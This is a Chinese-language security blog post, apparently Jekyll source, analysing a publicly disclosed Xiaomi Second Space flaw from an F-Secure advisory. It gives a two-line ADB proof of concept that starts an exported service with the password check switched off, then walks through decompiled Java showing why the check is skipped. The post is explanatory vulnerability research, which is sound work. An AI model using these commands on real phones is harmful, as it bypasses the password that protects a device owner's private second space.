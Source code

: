 ```yaml
---
layout: post
title:  "REDMI 5 Plus Second Space Password Bypass"
date:   2020-06-10 18:00:00 +520
categories: Android_Security
tags: [Framework, LogicBug, ExportedComponent]
---
```


这个漏洞来自F-Secure实验室
- https://labs.f-secure.com/advisories/xiaomi-second-space

一句话描述就是：通过ADB命令启动一个Service就可以绕过小米Second Space的密码校验

我有一台Mix 2，刚好可以用于测试

Second Space的中文版本叫作`手机分身`

![](/assets/resources/DEC8A5C4B85CB1E7735AB3530F29BD12.jpg)

点击`开启手机分身`，会进入设置，两个密码，一个密码用于进入分身，一个密码用于回到主系统

这个漏洞的作用，就是让攻击者不需要密码，也可以进入分身，并且在主系统与分身之间自由切换

一共两条命令
```shell
➜ SECOND_USER=`adb shell pm list users | grep -o "{[0-9]*" | tr -d '{' | tail -n 1`
➜ adb shell am start-service --ez params_check_password False --ei params_target_user_id $SECOND_USER -a com.miui.xspace.TO_CHANGE_USER
```

第一条命令用于查询当前手机里的用户，`| grep -o "{[0-9]*" | tr -d '{' | tail -n 1`用于过滤出`11`这个字段
```shell
➜ adb shell pm list users
Users:
	UserInfo{0:机主:13} running
	UserInfo{11:security space:13} running
```

第二条命令可以说是最为关键，我们对其进行参数拆分
```shell
adb shell am start-service // 通过ADB命令启动Service
    --ez params_check_password False // boolean类型参数
    --ei params_target_user_id $SECOND_USER // int类型参数
    -a com.miui.xspace.TO_CHANGE_USER // 指定的Action
```

我们现在知道了这个Service响应的Action是`"com.miui.xspace.TO_CHANGE_USER"`

根据F-Secure的文章提示找到应用`com.miui.securitycore`

当然了，你想自己通过全局爆搜APK字符串也是可以的

这是实现Space切换的Service

![IMAGE](/assets/resources/EB405B9E46F294F27D622AED92854C57.jpg)

查看AndroidManifest文件的定义，有`<intent-filter>`默认导出
```xml
<service 
    android:name="com.miui.securityspace.service.SwitchUserService"
    android:permission="android.permission.INTERACT_ACROSS_USERS" 
    android:process="com.miui.securitycore.remote">
    <intent-filter>
        <action android:name="com.miui.xspace.TO_CHANGE_USER" />
    </intent-filter>
</service>
```

获取四个Intent字段后，调用`checkPasswordBeforeSwitch()`，`mTargetUserId`就是上文提到的`11`
```Java
public int onStartCommand(Intent intent, int arg7, int arg8) {
    this.mDelayTime = intent.getLongExtra("com.miui.xspace.preference_delay_time", 300);
    this.mFromType = intent.getStringExtra("com.miui.xspace.preference_from_type");
    this.mTargetUserId = intent.getIntExtra("params_target_user_id", -10000);
    this.mIsNeedcheckPassword = intent.getBooleanExtra("params_check_password", true);
    Log.d("SwitchUserService", "mTargetUserId: " + this.mTargetUserId);
    if(this.mTargetUserId != -10000) {
        this.checkPasswordBeforeSwitch(this.mTargetUserId);
    }

    this.stopSelf();
    return super.onStartCommand(intent, arg7, arg8);
}
```

`needCloseSdcardFs()`返回的固定值`0`，所以第一个`if`块不会进入，第二个`if`块有两个判断条件，`!mIsNeedcheckPassword`和`!isSecure()`，只需要满足其中一个就可以进入`if`块，而Poc中设置的`"params_check_password"`字段为`False`，所以这个`if`块就是我们关注的重点
```Java
private void checkPasswordBeforeSwitch(int mTargetUserId) {
    Intent intent;
    
    // private boolean needCloseSdcardFs(int arg2) { return 0; }
    if(this.needCloseSdcardFs(mTargetUserId)) {
        intent = new Intent(((Context)this), SdcardFsDialogActivity.class);
        intent.setFlags(0x10000000);
        this.startActivity(intent);
        return;
    }

    if(!this.mIsNeedcheckPassword || !SpaceManagerWrapper.getInstance().isSecure(mTargetUserId)) {
        int v1 = SpaceManagerWrapper.getInstance().switchUser(mTargetUserId);
        if(v1 == 0) {
            AnalyticsHelper.trackSwitchUser(mTargetUserId, this.mFromType);
        }
        else if(2 == v1) {
            ToastUtils.makeText(((Context)this), this.getResources().getString(0x7F09014B), 0).show(); // Can't switch between spaces during a call
        }
        else if(3 == v1) {
            ToastUtils.makeText(((Context)this), this.getResources().getString(0x7F09018B), 0).show(); // Switching to Second space is restricted by parental controls
        }
        else if(4 == v1) {
            ToastUtils.makeText(((Context)this), this.getResources().getString(0x7F0901CC), 0).show(); // Can't switch between spaces when Ultra battery saver is on
        }
    }
    else {
        intent = new Intent(((Context)this), SwitchUserConfirmActivity.class);
        intent.addFlags(0x10008000);
        intent.putExtra("preference_key_user_id", mTargetUserId);
        intent.putExtra("com.miui.xspace.preference_delay_time", this.mDelayTime);
        intent.putExtra("com.miui.xspace.preference_from_type", this.mFromType);
        this.startActivityAsUser(intent, new UserHandle(CrossUserUtils.getCurrentUserId()));
    }
}
```

这个`if`块的第一句代码就是调用`switchUser()`，一共有三个判断
```Java
public int switchUser(int mTargetUserId) {
    if(DeviceUtil.isPhoneCalling(this.mContext)) {
        Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when calling.");
        return 2;
    }

    if(MiuiSettings$Secure.isGreenKidActive(this.mContext.getContentResolver())) {
        Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when green kid active.");
        return 3;
    }

    if(MiuiSettings$System.isSuperSaveModeOpen(this.mContext, 0)) {
        Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when super power active.");
        return 4;
    }

    if(this.mSpaceManager.switchUser(mTargetUserId)) {
        return 0;
    }

    return 1;
}
```

第一个判断，如果当前有电话打进来或者正在接电话，不进行Space切换
```Java
CALL_STATE_STATE_IDLE = 0;
CALL_STATE_STATE_RUNNING = 1;
CALL_STATE_STATE_OFFHOOK = 2;

public static boolean isPhoneCalling(Context context) {
    boolean result = true;
    int callState = context.getSystemService("phone").getCallState();
    if(callState != 1 && callState != 2) {
        result = false;
    }

    return result;
}
```

第二个判断和第三个判断，有一点点棘手，因为它调用到了Framework代码，小米在这一层多了相当多的定制
```Java
import android.provider.MiuiSettings$Secure;
import android.provider.MiuiSettings$System;

if(MiuiSettings$Secure.isGreenKidActive(this.mContext.getContentResolver())) {
    Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when green kid active.");
    return 3;
}

if(MiuiSettings$System.isSuperSaveModeOpen(this.mContext, 0)) {
    Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when super power active.");
    return 4;
}
```

解析boot-framework.vdex，会获得三个cdex，再解析三个cdex文件为dex文件即可

![IMAGE](/assets/resources/C6FE99F25A99F5D480D2D8DF6827060C.jpg)

JEB分析一波，可以直接找到两个方法，正常情况下这两个方法都返回`false`，可以不用过多关注

![IMAGE](/assets/resources/6D15B242DBB968006CBF5027ACFA08A1.jpg)

最后就是切换Space啦
```Java
if(this.mSpaceManager.switchUser(mTargetUserId)) {
    return 0;
}
```

这后面又会调用到Framework的代码，咱们就不进行展开了

有生之年一定要认识一下F-Secure的大佬们，给大佬们一人带一双温州皮鞋穿穿